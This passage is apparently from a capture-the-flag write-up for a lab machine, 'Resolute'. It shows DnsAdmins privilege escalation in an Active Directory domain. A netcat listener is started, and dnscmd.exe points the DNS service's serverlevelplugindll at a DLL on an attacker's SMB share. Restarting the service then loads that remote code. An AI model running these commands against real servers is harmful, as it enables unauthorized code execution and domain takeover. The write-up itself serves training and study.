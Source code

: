   
Then, setup a netcat listener on your attacking machine:
```
kali@kali:~$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
```
  
  
Back on the box, enter the following command `dnscmd.exe <FQDN of the box> /config /serverlevelplugindll \\<our attacking machine>\share\plugin.dll`. The `FQDN` is important - you can find it from the SMB portion of your completed nmap scan:
```
Host script results:
|_clock-skew: mean: 2h47m54s, deviation: 4h37m08s, median: 7m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-02-28T09:34:26-08:00
```
Our `FQDN`: `Resolute.megabank.local`. So let's use that in our command:
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd.exe Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.64\share\plugin.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
  
  
Still on the box, enter `sc.exe stop dns`, followed by `sc.exe start dns` to restart `DNS`:
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3800
        FLAGS              :
```
  